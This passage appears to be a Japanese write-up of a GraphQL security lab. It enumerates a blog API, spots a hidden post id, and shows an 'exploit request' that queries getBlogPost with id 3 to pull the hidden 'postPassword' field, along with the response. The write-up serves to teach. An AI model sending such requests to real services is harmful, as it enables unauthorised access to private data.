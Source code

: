 ```json
        "image": "/image/blog/posts/12.jpg",
        "title": "It's All Just A Click Away",
        "summary": "What I love most about Social Media is how it fills my days. Time just evaporates with every word I read, every video I watch and every pointless self-analyzing quiz I take part in. I used to tell people I...",
        "id": 1
      },
      {
        "image": "/image/blog/posts/32.jpg",
        "title": "A Guide to Online Dating",
        "summary": "Let's face it, it's a minefield out there. That's not even just a reference to dating, the planet right now is more or less a minefield. In a world where cats have their own YouTube channels and a celebrity can...",
        "id": 4
      }
    ]
  }
}
```

`id`が連番になっていそうです。(3が見当たらないので怪しさマックス)

`Introspection Query`で、内部を列挙しておきます。

<details><summary>introspection query</summary></details>

この結果から、

<details><summary>res</summary></details>
`BlogPost type`には、`postPassword`fieldがあることがわかる。

また、queryに、`getBlogPost`, `getAllBlogPosts`というものがあり、`getBlogPost`はargsで`id`を受け付けてくれる点にも注目する。

コレにより、idを指定できる可能性があるためである。

getBlogPost queryを使っているところは、`View Post`を押下するとわかる。

`example request body`
```json
{"query":"\n    query getBlogPost($id: Int!) {\n        getBlogPost(id: $id) {\n            image\n            title\n            author\n            date\n            paragraphs\r\n\t\t\t\t\t\tpost\n        }\n    }","operationName":"getBlogPost","variables":{"id":5}}
```

variableに3を与え、`postPassword`も取得するとパスワードを得ることができそう

`exploit request`
```json
{"query":"\n    query getBlogPost($id: Int!) {\n        getBlogPost(id: $id) {\n            image\n            title\n            author\n            date\n            paragraphs\r\n\t\t\t\t\t\tpostPassword\n        }\n    }","operationName":"getBlogPost","variables":{"id":3}}
```

`res
```json
{
  "data": {
    "getBlogPost": {
      "image": "/image/blog/posts/43.jpg",
      "title": "New Year - New Friends",
      "author": "Fred Time",
      "date": "2023-10-01T19:22:11.832Z",
      "paragraphs": [
        "It's always the same. A new year begins and those people you thought were your friends go, well, a bit weird. Your nearest and dearest, between them, have a very long list of things they want to change about themselves. I liked them just the way they were, that's why we were friends in the first place. January only used to embrace two life changes. Cessation. Smoking and eating. Now everything has a 'uary' slapped on the end of it, January is the new 'Mis-uary'.",
```